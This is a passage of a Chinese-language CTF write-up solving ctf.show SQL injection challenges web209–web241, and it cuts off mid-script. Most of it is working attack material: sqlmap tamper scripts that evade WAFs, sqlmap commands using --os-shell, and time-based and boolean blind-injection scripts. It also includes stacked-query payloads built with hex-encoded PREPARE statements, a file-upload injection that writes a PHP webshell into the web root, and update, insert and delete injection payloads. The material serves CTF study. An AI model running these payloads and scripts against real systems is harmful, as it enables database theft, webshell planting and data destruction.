        retVal = ""
        quote, doublequote, firstspace = False, False, False

        for i in xrange(len(payload)):
            if not firstspace:
                if payload[i].isspace():
                    firstspace = True
                    retVal += chr(0x0a)
                    continue

            elif payload[i] == '\'':
                quote = not quote

            elif payload[i] == '"':
                doublequote = not doublequote

            elif payload[i] == "*":
                retVal += chr(0x31)
                continue

            elif payload[i] == "=":
                retVal += chr(0x0a)+'like'+chr(0x0a)
                continue

            elif payload[i] == " " and not doublequote and not quote:
                retVal += chr(0x0a)
                continue

            retVal += payload[i]

    return retVal


```

其实也不用写这么复杂

直接这样也ok的

```python
#!/usr/bin/env python

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass


def tamper(payload, **kwargs):
    return payload.replace("=", " like ").replace(" ", chr(0x09))
```

payload:

```
python sqlmap.py -u "http://aaa64ad5-5bc1-470b-b485-0549641a1327.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=3oemcboib377tes0fi7ltgh9ba;" --referer=ctf.show -D ctfshow_web --safe-url="http://aaa64ad5-5bc1-470b-b485-0549641a1327.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=web209 -T ctfshow_flav --dump
```


#### web210

```
查询语句

//拼接sql语句查找指定ID用户
$sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 0,1;";
      
返回逻辑

//对查询字符进行解密
  function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
      
```

这题会对查询的字符进行两次的base64解密和两次的反转

那我们只需要修改tamper，使传入的payload进行两次base64加密即可

```python
#!/usr/bin/env python

from lib.core.enums import PRIORITY
import base64

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass


def tamper(payload, **kwargs):
    rev1 = payload[::-1].encode()
    encode1 = base64.b64encode(rev1).decode()
    rev2 = encode1[::-1].encode()
    encode2 = base64.b64encode(rev2).decode()
    return encode2
```

payload:


```
python sqlmap.py -u "http://35600981-0e61-43e6-85ce-38d9cc6eeaf5.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=bffum6tr2u1k3h8l9bgtkst4ni;" --referer=ctf.show -D ctfshow_web --safe-url="http://35600981-0e61-43e6-85ce-38d9cc6eeaf5.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=web210 -T ctfshow_flavi --dump
```


#### web211

```
查询语句

//拼接sql语句查找指定ID用户
$sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 0,1;";
      
返回逻辑

//对查询字符进行解密
  function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
function waf($str){
    return preg_match('/ /', $str);
}

```

增加了空格waf

问题不大

```python
#!/usr/bin/env python

from lib.core.enums import PRIORITY
import base64

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass


def tamper(payload, **kwargs):
	
    payload0 = payload.replace(" ", chr(0x09))
    rev1 = payload0[::-1].encode()
    encode1 = base64.b64encode(rev1).decode()
    rev2 = encode1[::-1].encode()
    encode2 = base64.b64encode(rev2).decode()
    return encode2
```

payload

```
python sqlmap.py -u "http://f9c9297a-3dc9-496e-8d15-33e170db0df8.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=ibn3o3imhq85l1043f80nbdova;" --referer=ctf.show -D ctfshow_web --safe-url="http://f9c9297a-3dc9-496e-8d15-33e170db0df8.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=web211 -T ctfshow_flavia --dump
```


#### web212

```python
查询语句

//拼接sql语句查找指定ID用户
$sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 0,1;";
      
返回逻辑

//对查询字符进行解密
  function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
function waf($str){
    return preg_match('/ |\*/', $str);
}
```

waf增加了*

但是不影响上一题的tamper

```
python sqlmap.py -u "http://2055229c-7666-493e-9329-2cdc56d820ed.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=72duisds4cprdqlbtf4fu4389d;" --referer=ctf.show -D ctfshow_web --safe-url="http://2055229c-7666-493e-9329-2cdc56d820ed.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=web211 -T ctfshow_flavis --dump
```


#### web213

```php
查询语句

//拼接sql语句查找指定ID用户
$sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 0,1;";
      
返回逻辑

//对查询字符进行解密
  function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
function waf($str){
    return preg_match('/ |\*/', $str);
}
```

根据提示，用--os-shell拿到shell读flag

其他跟上题一样

payload:

```
python sqlmap.py -u "http://341989d1-8945-4c5d-b70e-2d69a0f850b1.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=66ddslui3ejn3b4pa6437qm60j;" --referer=ctf.show --safe-url="http://341989d1-8945-4c5d-b70e-2d69a0f850b1.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=web211 --os-shell
```


#### 时间盲注

#### web214


这道题没给出注入点


主页找到select.js中，测试后发现ip为注入点

```python
import requests

url = "http://fe78d582-57da-4291-845f-1e8ff2936104.challenge.ctf.show/api/"
result = ""
i = 0

while True:
    i = i + 1
    # ASCII码范围，32到127是可打印字符的范围
    head = 32
    tail = 127

    while head < tail:
        # 二分查找的中间值
        mid = (head + tail) >> 1
		# 查表名
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查列名
        # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagx'"
        # 爆字段
        payload = "select flaga from ctfshow_flagx"
        data = {
            'ip': f"if(ascii(substr(({payload}),{i},1))>{mid},sleep(1),1)",
            'debug': '0'
        }
        try:
            # 发送POST请求，设置超时时间为1秒
            r = requests.post(url, data=data, timeout=1)
            # 如果请求在1秒内返回，说明当前位置字符的ASCII码小于等于中间值
            tail = mid
        except requests.exceptions.Timeout:
            # 如果请求超时，说明当前位置字符的ASCII码大于中间值
            head = mid + 1
        except Exception as e:
            print(f"An unexpected error occurred: {e}")
            break

    if head != 32:
        # 如果找到有效的字符，将其添加到结果字符串中
        result += chr(head)
    else:
        # 如果没有找到有效字符，退出循环
        break
    print("[*]Result : "+result)
```


#### web215


上题脚本改一改


```python
import requests

url = "http://08e16d35-1a8c-4ed7-9e9e-760a32aa0756.challenge.ctf.show/api/"
result = ""
i = 0

while True:
    i = i + 1
    # ASCII码范围，32到127是可打印字符的范围
    head = 32
    tail = 127

    while head < tail:
        # 二分查找的中间值
        mid = (head + tail) >> 1
		# 查表名
        payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查列名
        # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagx'"
        # 爆字段
        # payload = "select flaga from ctfshow_flagx"
        data = {
            'ip': f"1' or if(ascii(substr(({payload}),{i},1))>{mid},sleep(1),1)#",
            'debug': '0'
        }
        try:
            # 发送POST请求，设置超时时间为1秒
            r = requests.post(url, data=data, timeout=1)
            # 如果请求在1秒内返回，说明当前位置字符的ASCII码小于等于中间值
            tail = mid
        except requests.exceptions.Timeout:
            # 如果请求超时，说明当前位置字符的ASCII码大于中间值
            head = mid + 1
        except Exception as e:
            print(f"An unexpected error occurred: {e}")
            break

    if head != 32:
        # 如果找到有效的字符，将其添加到结果字符串中
        result += chr(head)
    else:
        # 如果没有找到有效字符，退出循环
        break
    print("[*]Result : "+result)
```


#### web216


构造闭合即可

```python
import requests

url = "http://d3d3aa4e-87f5-454c-b589-826971f59bbb.challenge.ctf.show/api/"
result = ""
i = 0

while True:
    i = i + 1
    # ASCII码范围，32到127是可打印字符的范围
    head = 32
    tail = 127

    while head < tail:
        # 二分查找的中间值
        mid = (head + tail) >> 1
		# 查表名
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查列名
        # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxcc'"
        # 爆字段
        payload = "select flagaac from ctfshow_flagxcc"
        data = {
            'ip': f"'') or if(ascii(substr(({payload}),{i},1))>{mid},sleep(1),1)#",
            'debug': '0'
        }
        try:
            # 发送POST请求，设置超时时间为1秒
            r = requests.post(url, data=data, timeout=1)
            # 如果请求在1秒内返回，说明当前位置字符的ASCII码小于等于中间值
            tail = mid
        except requests.exceptions.Timeout:
            # 如果请求超时，说明当前位置字符的ASCII码大于中间值
            head = mid + 1
        except Exception as e:
            print(f"An unexpected error occurred: {e}")
            break

    if head != 32:
        # 如果找到有效的字符，将其添加到结果字符串中
        result += chr(head)
    else:
        # 如果没有找到有效字符，退出循环
        break
    print("[*]Result : "+result)
```


#### web217


这题waf了sleep

可以改用benchmark

> - 在 MySQL 中，`benchmark`函数用于测试表达式执行的性能。它的语法是`benchmark(count,expr)`，其中`count`是要执行`expr`的次数，`expr`是要测试的表达式。
> - 例如，`benchmark(10000000,sha(1))`表示将`sha(1)`这个表达式执行 10000000 次。`sha(1)`是计算字符串`'1'`的 SHA - 1 哈希值。

```python
import requests
import time

url = "http://b5d4a386-1612-4c40-b14c-e9103a54188c.challenge.ctf.show/api/"
result = ""
i = 0

while True:
    i = i + 1
    # ASCII码范围，32到127是可打印字符的范围
    head = 32
    tail = 127

    while head < tail:
        # 二分查找的中间值
        mid = (head + tail) >> 1
        # 查数据库
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查列名字
        # payload = "select column_name from information_schema.columns where table_name='ctfshow_flagxccb' limit 1,1"
        # 查数据
        payload = "select flagaabc from ctfshow_flagxccb"
        data = {
            'ip': f"1) or if(ascii(substr(({payload}),{i},1))>{mid},benchmark(1000000,sha(1)),1)#",
            'debug': '0'
        }
        try:
            # 发送POST请求，设置超时时间为1秒
            r = requests.post(url, data=data, timeout=0.33)
            # 如果请求在1秒内返回，说明当前位置字符的ASCII码小于等于中间值
            time.sleep(1)
            tail = mid
        except requests.exceptions.Timeout:
            # 如果请求超时，说明当前位置字符的ASCII码大于中间值
            time.sleep(1)
            head = mid + 1
        except Exception as e:
            time.sleep(1)
            print(f"An unexpected error occurred: {e}")
            break

    if head != 32:
        # 如果找到有效的字符，将其添加到结果字符串中
        result += chr(head)
    else:
        # 如果没有找到有效字符，退出循环
        break

    print("[*]Result : "+result)
```

benchmark的设置比较苛刻，要多试试

最好不要设置太大，环境会崩


#### web218

```php
查询语句

       where id = ($id);
      
返回逻辑

    //屏蔽危险分子
    function waf($str){
        return preg_match('/sleep|benchmark/i',$str);
    }   
      
```

这题sleep和benchmark都被ban掉了

可以考虑用笛卡尔积盲注

参考文章：[SQL注入经验-大负荷注入-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/1601686)

```python
import requests
import time

url = "http://a17ea2c9-7463-4d5a-bfa5-2f6bdcd2daf1.challenge.ctf.show/api/"
result = ""
i = 0

while True:
    i = i + 1
    # ASCII码范围，32到127是可打印字符的范围
    head = 32
    tail = 127

    while head < tail:
        # 二分查找的中间值
        mid = (head + tail) >> 1

        # payload = "select table_name from information_schema.tables where table_schema=database() limit 0,1"
        # payload = "select column_name from information_schema.columns where table_name='ctfshow_flagxc' limit 1,1"
        payload = "select flagaac from ctfshow_flagxc"
        data = {
            'ip': f"1) or if(ascii(substr(({payload}),{i},1))>{mid},(select count(*) from information_schema.columns A, information_schema.columns B),1)#",
            'debug': '1'
        }
        try:
            # 发送POST请求，设置超时时间为1秒
            r = requests.post(url, data=data, timeout=0.15)
            # 如果请求在1秒内返回，说明当前位置字符的ASCII码小于等于中间值
            time.sleep(0.2)
            tail = mid
        except requests.exceptions.Timeout:
            # 如果请求超时，说明当前位置字符的ASCII码大于中间值
            time.sleep(0.2)
            head = mid + 1
        except Exception as e:
            time.sleep(0.2)
            print(f"An unexpected error occurred: {e}")
            break

    if head != 32:
        # 如果找到有效的字符，将其添加到结果字符串中
        result += chr(head)
    else:
        # 如果没有找到有效字符，退出循环
        break

    print("[*]Result : "+result)

# ctfshow{d317911f-ac1e-4160-be70-47d01a0f2f45}

```

乱码的话，多跑几次就好了

另一种方法就是通过正则 DOS RLIKE注入

利用 SQL 多次计算正则消耗计算资源产生延时效果，与 benchmark 原理类似，通过 rpad 或 repeat 构造长字符串，以计算量大的 pattern。

```
debug=1&ip=repeat(rpad('a', 999999, 'a'),16) rlike concat(repeat('(a.*)+',14), 'b')
```


#### web219

```
查询语句

       where id = ($id);
      
返回逻辑

    //屏蔽危险分子
    function waf($str){
        return preg_match('/sleep|benchmark|rlike/i',$str);
    }   
      
```

继续使用笛卡尔积盲注即可

```python
import requests
import time

url = "http://61d55d79-847e-43d7-80e4-c221ceae9f4a.challenge.ctf.show/api/"
result = ""
i = 0

while True:
    i = i + 1
    # ASCII码范围，32到127是可打印字符的范围
    head = 32
    tail = 127

    while head < tail:
        # 二分查找的中间值
        mid = (head + tail) >> 1

        # payload = "select table_name from information_schema.tables where table_schema=database() limit 0,1"
        # payload = "select column_name from information_schema.columns where table_name='ctfshow_flagxca' limit 1,1"
        payload = "select flagaabc from ctfshow_flagxca"

        data = {
            'ip': f"1) or if(ascii(substr(({payload}),{i},1))>{mid},(select count(*) from information_schema.columns A, information_schema.columns B),1)#",
            'debug': '1'
        }
        try:
            # 发送POST请求，设置超时时间为1秒
            r = requests.post(url, data=data, timeout=0.15)
            # 如果请求在1秒内返回，说明当前位置字符的ASCII码小于等于中间值
            time.sleep(0.2)
            tail = mid
        except requests.exceptions.Timeout:
            # 如果请求超时，说明当前位置字符的ASCII码大于中间值
            time.sleep(0.2)
            head = mid + 1
        except Exception as e:
            time.sleep(0.2)
            print(f"An unexpected error occurred: {e}")
            break

    if head != 32:
        # 如果找到有效的字符，将其添加到结果字符串中
        result += chr(head)
    else:
        # 如果没有找到有效字符，退出循环
        break

    print("[*]Result : "+result)


```


#### web220

```
查询语句

       where id = ($id);
      
返回逻辑

    //屏蔽危险分子
    function waf($str){
        return preg_match('/sleep|benchmark|rlike|ascii|hex|concat_ws|concat|mid|substr/i',$str);
    }   
      
```

substr用left代替即可，有点像之前布尔盲注的一道题，只是改成了时间盲注罢了


```python
import requests
import string
import time

url = "http://52728b9a-ffae-4f96-b51f-0549bb5cb4e0.challenge.ctf.show/api/"
str=" _{}-" + string.ascii_lowercase + string.digits
result = ''
for i in range(1,45):
    for j in str:
        # payload = "select table_name from information_schema.tables where table_schema=database() limit 0,1"
        # payload = "select column_name from information_schema.columns where table_name='ctfshow_flagxcac' limit 1,1"
        payload = "select flagaabcc from ctfshow_flagxcac"

        data = {
            'ip': f"1) or if(LEFT(({payload}),{i})regexp('{result+j}'),(select count(*) from information_schema.columns A, information_schema.columns B),1)#",
            'debug': 0
        }
        try:
            r = requests.post(url, data=data, timeout=0.15)
            time.sleep(0.2)
        except Exception as e:
            time.sleep(0.2)
            result = result + j
            print("[*] loading :"+result)
            break

print("[*] result :"+result)

```


#### web221

```php
查询语句

  //分页查询
  $sql = select * from ctfshow_user limit ($page-1)*$limit,$limit;
      
返回逻辑

//TODO:很安全，不需要过滤
//拿到数据库名字就算你赢
```

p神的文章有提到limit注入

[[转载]Mysql下Limit注入方法 | 离别歌](https://www.leavesongs.com/PENETRATION/sql-injections-in-mysql-limit-clause.html)


payload:

```
?page=1&limit=1%20procedure%20analyse(extractvalue(rand(),concat(0x3a,database())),1)
```


#### group注入

#### web222

```
查询语句

  //分页查询
  $sql = select * from ctfshow_user group by $username;
      
返回逻辑

//TODO:很安全，不需要过滤
```


group by 可以进行时间盲注，布尔盲注等

本来以为是报错注入的，发现好像不太行

还是的时间盲注

拿前面的盲注脚本改一改

```python
import requests
import time
url = "http://529d9311-c036-4831-bfa1-b2ca91dae190.challenge.ctf.show/api/?u="
result = ""
i = 0

while True:
    i = i + 1
    # ASCII码范围，32到127是可打印字符的范围
    head = 32
    tail = 127

    while head < tail:
        # 二分查找的中间值
        mid = (head + tail) >> 1
        # 查表名
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查列名字
        # payload = "select column_name from information_schema.columns where table_name='ctfshow_flaga' limit 1,1"
        # 爆字段
        payload = "select flagaabc from ctfshow_flaga"

        data = f"concat((if (ascii(substr(({payload}),{i},1))>{mid}, sleep(0.05), 2)), 1);"

        try:
            r = requests.post(url+data, timeout=0.05)
            time.sleep(0.2)
            tail = mid
        except requests.exceptions.Timeout:
            time.sleep(0.2)
            # 如果请求超时，说明当前位置字符的ASCII码大于中间值
            head = mid + 1
        except Exception as e:
            time.sleep(0.2)
            print(f"An unexpected error occurred: {e}")
            break

    if head != 32:
        # 如果找到有效的字符，将其添加到结果字符串中
        result += chr(head)
    else:
        # 如果没有找到有效字符，退出循环
        break
    print("[*]Result : "+result)
```


#### web223

```php
查询语句

  //分页查询
  $sql = select * from ctfshow_user group by $username;
      
返回逻辑

//TODO:很安全，不需要过滤
//用户名不能是数字
```

这题ban掉了数字

用true来构造出数字即可

这题一开始我想用时间盲注的，但是跑不出来，后面直接拿y4✌的布尔盲注跑了

如下

```python
import requests
import time
url = "http://14dc1900-f046-44e8-bfa2-e93fbc2a32b3.challenge.ctf.show/api/?u="
result = ""
i = 0

def createNum(n):
    num = 'true'
    if n == 1:
        return 'true'
    else:
        for i in range(n - 1):
            num += "+true"
    return num

while True:
    i = i + 1
    # ASCII码范围，32到127是可打印字符的范围
    head = 32
    tail = 127

    while head < tail:
        # 二分查找的中间值
        mid = (head + tail) >> 1
        
        # 查数据库-ctfshow_flagas
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查字段-flagasabc
        # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagas'"
        # 查flag
        payload = "select flagasabc from ctfshow_flagas"


        params = {
            # "u": f"if(ascii(substr(({payload}),{createNum(i)},{createNum(1)}))>{createNum(mid)},sleep(true),true)"  #时间盲注 （我没跑出来，不知道为啥
            "u": f"if(ascii(substr(({payload}),{createNum(i)},{createNum(1)}))>{createNum(mid)},username,'a')" #布尔盲注
        }

        # try:
        #     r = requests.post(url,params=params,timeout=1)
        #     tail = mid
        # except Exception as e:
        #     head = mid + 1

        r = requests.get(url, params=params)
        if "userAUTO" in r.text:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        # 如果找到有效的字符，将其添加到结果字符串中
        result += chr(head)
    else:
        # 如果没有找到有效字符，退出循环
        break

    print(result)


```

布尔盲注这么快，我为什么要想不开尝试时间盲注呢


#### web224


试了试万能密码，失败了

访问/robots.txt

发现有重置密码的路由


修改密码之后登入，看到一个文件上传


[ctfshow web224 sql_文件上传产生sql注入 详解_sql注入漏洞ctf文件上传-CSDN博客](https://blog.csdn.net/weixin_48083470/article/details/120608011)

这是一道文件上传的sql注入题

当文件上传时，后台会将文件名，文件路径，文件类型（文件头）直接与sql语句进行拼接

所以我们可以构造一个恶意文件，将文件头改写成我们要拼接的sql语句，从而实现注入

如图


payload:

```
C64File "');select 0x3c3f3d60746163202f662a603f3e into outfile '/var/www/html/1.php';--+
```


新建文本，写入payload，改名为1.bin，上传文件，访问1.bin拿到flag


#### 堆叠注入

#### web225

没有过滤show

```
username=1';show tables;
```


可以用handler读

payload:

```
username=ctfshow';show tables;handler ctfshow_flagasa open;handler ctfshow_flagasa read first;
```


> 1.`handler ctfshow_flag as a open;`
>
> `HANDLER` 语句是 MySQL 中用于直接操作表的一种特殊方式。此语句的作用是打开一个名为 `ctfshow_flag` 的表，并将其别名为 `a`。`HANDLER` 语句可以绕过一些常规的查询机制，直接访问表的数据，通常用于高效地获取数据。
>
> 2.`handler ctfshow_flag as a read first;`
>
> 该语句继续使用 `HANDLER` 来操作之前打开的 `ctfshow_flag` 表（别名 `a`），`read first` 表示读取表中的第一行数据。


其他方法


#### web226

```php
查询语句

  //分页查询
  $sql = "select id,username,pass from ctfshow_user where username = '{$username}';";
      
返回逻辑

  //师傅说过滤的越多越好
  if(preg_match('/file|into|dump|union|select|update|delete|alter|drop|create|describe|set|show|\(/i',$username)){
    die(json_encode($ret));
  }
```

这道题把show给waf掉了

这题可以用预处理来打

[[SQL注入\][强网杯 2019]随便注(三种姿势)-CSDN博客](https://blog.csdn.net/solitudi/article/details/107823398?ops_request_misc=%7B%22request%5Fid%22%3A%22160652999219721940215459%22%2C%22scm%22%3A%2220140713.130102334.pc%5Fblog.%22%7D&request_id=160652999219721940215459&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_v2~rank_blog_default-1-107823398.pc_v2_rank_blog_default&utm_term=强网杯&spm=1018.2118.3001.4450)

格式

```
PREPARE name from '[my sql sequece]';   //预定义SQL语句
EXECUTE name;  //执行预定义SQL语句
(DEALLOCATE || DROP) PREPARE name;  //删除预定义SQL语句
```

我们可以先将要执行的语句转换成16进制后，作为预处理的sql语句传入，并执行

payload

```
username=1';PREPARE tables from 0x73686f77207461626c6573;EXECUTE tables;
//show tables

username=1';PREPARE columns from 0x73656c6563742067726f75705f636f6e63617428636f6c756d6e5f6e616d65292066726f6d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73207768657265207461626c655f736368656d613d6461746162617365282920616e64207461626c655f6e616d653d2763746673685f6f775f666c6167617327;EXECUTE columns;
//select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='ctfsh_ow_flagas'

username=1';PREPARE flag from 0x73656c65637420666c61676173622066726f6d2063746673685f6f775f666c61676173;EXECUTE flag;
//select flagasb from ctfsh_ow_flagas
//ctfshow{7d0038e7-cede-48cc-b0fb-307177d26890}
```


#### web227

这道题没办法通过查表拿到flag

这道题的payload是

```
1';call getFlag();
```

就是执行getFlag函数拿到flag

但问题是我们要怎么知道这个函数呢

我们需要查看MySQL的存储过程，如下文

[MySQL——查看存储过程和函数_mysql 查询function-CSDN博客](https://blog.csdn.net/qq_41573234/article/details/80411079)


```
SELECT * FROM information_schema.Routines
```

通过预处理执行

```
username=1';PREPARE Routines from 0x53454c454354202a2046524f4d20696e666f726d6174696f6e5f736368656d612e526f7574696e6573;EXECUTE Routines;
```


可以看到getFlag函数和flag

#### web228

```
查询语句

  //分页查询
  $sql = "select id,username,pass from ctfshow_user where username = '{$username}';";
  $bansql = "select char from banlist;";
      
返回逻辑

  //师傅说内容太多，就写入数据库保存
  if(count($banlist)>0){
    foreach ($banlist as $char) {
      if(preg_match("/".$char."/i", $username)){
        die(json_encode($ret));
      }
    }
  }
```

同web226


#### web229

同web226


#### web230

同web226


#### update注入


#### web231

```
查询语句

  //分页查询
  $sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
      
返回逻辑

  //无过滤

      
```

知道update函数的作用之后就好理解了

可以通过update函数更新ctfshow_user表中的内容

利用update将查询结果写入表中

```
password=1',username=(select group_concat(table_name) from information_schema.tables where table_schema=database()) where 1=1#&username=1
```


```
查表名
password=1',username=(select group_concat(table_name) from information_schema.tables where table_schema=database()) where 1=1#&username=1
查列名
password=1',username=(select group_concat(column_name) from information_schema.columns where table_name='flaga') where 1=1#&username=1
得到flag
password=1',username=(select flagas from flaga) where 1=1#&username=1
                      
原文链接：https://blog.csdn.net/solitudi/article/details/110144623
```


#### web232

```
查询语句

  //分页查询
  $sql = "update ctfshow_user set pass = md5('{$password}') where username = '{$username}';";
      
返回逻辑

  //无过滤
```

同web231

```
password=1'),username=(select group_concat(table_name) from information_schema.tables where table_schema=database()) where 1=1#&username=1

password=1'),username=(select group_concat(column_name) from information_schema.columns where table_name='flagaa') where 1=1#&username=1

password=1'),username=(select flagass from flagaa) where 1=1#&username=1
```


#### web233

```
查询语句

  //分页查询
  $sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
      
返回逻辑

  //无过滤

```

这道题貌似waf掉了单引号，导致无法构造闭合，前面的方法用不了

##### 方法一

wp看到的骚操作


payload

```
#获取表名
password=\&username=,username=(select group_concat(table_name) from information_schema.tables where table_schema=database())%23

#获取列名
password=\&username=,username=(select group_concat(column_name) from information_schema.columns where table_schema=database())%23

#获取数据
password=\&username=,username=(select group_concat(flagass233) from flag233333)
```


##### 方法二 ：盲注

```python
"""
Author:Y4tacker
"""
import requests

url = "http://4f5b7639-6d01-45c4-9610-e11239ba8c90.chall.ctf.show/api/?page=1&limit=10"

result = ""
i = 0

while 1:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) >> 1
        # 查数据库
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查表名
        # payload = "select column_name from information_schema.columns where table_name='flag233333' limit 1,1"
        # 查数据
        payload = "select flagass233 from flag233333"
        data = {
            'username': f"1' or if(ascii(substr(({payload}),{i},1))>{mid},sleep(0.05),1)#",
            'password': '4'
        }
        try:
            r = requests.post(url, data=data, timeout=0.9)
            tail = mid
        except Exception as e:
            head = mid + 1
    if head != 32:
        result += chr(head)
    else:
        break
    print(result)
```


#### web234

```
查询语句

  //分页查询
  $sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
      
返回逻辑

  //无过滤

```

同web233，用\实现逃逸


#### web235

```php
查询语句

  //分页查询
  $sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
      
返回逻辑

  //过滤 or ' 

```

**or '** 被禁导致inf**or**mation_schema.tables也被禁了

导致我们没办法查询列

这种情况涉及到一个知识点 ：[CTF|mysql之无列名注入 - 知乎](https://zhuanlan.zhihu.com/p/98206699)

> 在 information_schema 中，除了 SCHEMATA、TABLES、COLUMNS 有表信息外，高版本的 mysql 中，还有 INNODB_TABLES 及 [INNODB_COLUMNS](https://zhida.zhihu.com/search?content_id=109954541&content_type=Article&match_order=1&q=INNODB_COLUMNS&zhida_source=entity) 中记录着表结构。

读表

```
username=,username=(select group_concat(table_name) from mysql.innodb_table_stats where database_name=database())#&password=\
```

查字段

```
username=,username=(select b from (select 1,2 as b,3 union select * from flag23a1 limit 1,1)a)#&password=\
```


#### web236

```php
查询语句

  //分页查询
  $sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
      
返回逻辑

  //过滤 or ' flag
```

读表

```
username=,username=(select group_concat(table_name) from mysql.innodb_table_stats where database_name=database())#&password=\

//banlist,ctfshow_user,flaga
```

读字段

```
username=,username=(select b from (select 1,2 as b,3 union select * from flaga limit 1,1)a)#&password=\
```

这题新增的flag过滤，但是实际上没有影响，或许是过滤返回的内容？


#### insert注入

#### web237

```php
查询语句

  //插入数据
  $sql = "insert into ctfshow_user(username,pass) value('{$username}','{$password}');";
      
返回逻辑

  //无过滤
```

insert函数用于插入值

其实跟update注入差不多

payload:

读表名

```
password=1&username=1',(select group_concat(table_name) from information_schema.tables where table_schema=database()));#
```


查列名

```
password=1&username=1',(select group_concat(column_name) from information_schema.columns where table_name='flag'));#

//id,flagass23s3,info
```

爆字段

```
password=1&username=1',(select flagass23s3 from flag));#
```


#### web238

```php
查询语句

  //插入数据
  $sql = "insert into ctfshow_user(username,pass) value('{$username}','{$password}');";
      
返回逻辑

  //过滤空格

```

测了一下发现不止是空格，连同一些代替空格的字符也被一同waf了，比如/**/

我们可以考虑**用括号代替空格**

payload

```
#获取表名
username=1',(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())))%23&password=1

#获取列名
username=1',(select(group_concat(column_name))from(information_schema.columns)where(table_name='flagb')))%23&password=1

#获取数据
username=1',(select(group_concat(flag))from(flagb)))%23&password=1

```


#### web239

```
查询语句

  //插入数据
  $sql = "insert into ctfshow_user(username,pass) value('{$username}','{$password}');";
      
返回逻辑

  //过滤空格 or 
```


payload:

读表

```
username=1',(select(group_concat(table_name))from(mysql.innodb_table_stats)where(database_name=database())))#&password=1
```

由于*被ban掉了，没办法用之前无列名爆字段的方法

这里猜测列名为flag，直接读

```
username=1',(select(flag)from(flagbb)))#&password=1
```


#### web240

```
Hint: 表名共9位，flag开头，后五位由a/b组成，如flagabaab，全小写
```

```
查询语句

  //插入数据
  $sql = "insert into ctfshow_user(username,pass) value('{$username}','{$password}');";
      
返回逻辑

  //过滤空格 or sys mysql
```

根据hint可以知道是要爆破表名

拿y4✌的脚本改一下

```
"""
Author:Y4tacker
"""
import random
import requests

url = "http://0a7a5c02-0a05-4efe-86f5-fcf36464cc74.challenge.ctf.show"
url_insert = url + "/api/insert.php"
url_flag = url + "/api/?page=1&limit=1000"


# 看命函数
def generate_random_str():
    sttr = 'ab'
    str_list = [random.choice(sttr) for i in range(5)]
    random_str = ''.join(str_list)
    return random_str


while 1:
    data = {
        'username': f"1',(select(flag)from(flag{generate_random_str()})))#",
        'password': ""
    }
    r = requests.post(url_insert, data=data)
    r2 = requests.get(url_flag)
    if "ctfshow{" in r2.text:
        for i in r2.json()['data']:
            if  "ctfshow{" in i['pass']:
                print(i['pass'])
                break
        break

```


#### web241

```
sql语句

  //删除记录
  $sql = "delete from  ctfshow_user where id = {$id}";
      
返回逻辑

  //无过滤
```

delete注入，delete函数顾名思义就是从数据库中删除内容

注入点在where后面，可以采用时间盲注或者布尔盲注，但是由于delete会删除数据库中的记录，所以可能会出现记录都删完了但是flag还没注出来的情况

```python
import requests
import time
url = 'http://40c66eef-72b4-4b08-88d0-87bef44b640e.challenge.ctf.show/api/delete.php'
str = ''
for i in range(1, 60):
    min,max = 32, 128
    while True:
        j = min + (max-min)//2
        if(min == j):
            str += chr(j)
            print(str)
            break
        # 爆表名
        # payload = {
        #     'id': f'if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))<{j},sleep(0.03),1)#'
        # }
        # 爆列
        # payload = {
        #     'id': f"if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='flag'),{i},1))<{j},sleep(0.03),1)#"
        # }
        # 爆值
        payload = {
